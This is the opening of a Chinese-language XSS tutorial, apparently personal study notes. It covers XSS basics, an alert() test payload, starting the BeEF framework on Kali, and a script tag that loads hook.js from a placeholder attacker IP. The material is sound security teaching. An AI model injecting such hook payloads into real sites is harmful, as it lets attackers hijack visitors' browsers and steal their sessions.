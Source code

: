 # XSS（XSS原理、beef-xss攻击平台、DVWA靶场、XSS分类、 盗取客户端cookie实战、利用nc（不能用外网也不能用kali）盗取cookie、xss弹窗方式、XSS靶场-绕过过滤、XSS挑战、XSS实战）

# XSS介绍

## 基本知识

跨站攻击

前端发生的攻击

JavaScript

安全人员测试xss：

如果测试成功，就是让它弹窗

```
<script>alert('1')</script>
```

在前端的世界里，html css js如果被正确执行，就无法在前端被人看到。

xss攻击的目的就是要让前端把我们的攻击代码执行！！



kali使用beef，beef=xss攻击平台

```
cd /usr/share/beef-xss
./beef
```

在得到的一大串东西里：

```
# ui/panel 是操作窗口的路径

# hook.js是测试xss漏洞成功之后的攻击代码：
<script src="http://[黑客ip]:3000/hook.js"></script>
```

![image-20220115232800286](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20XSS%E4%BB%8B%E7%BB%8D.assets/image-20220115232800286.png)
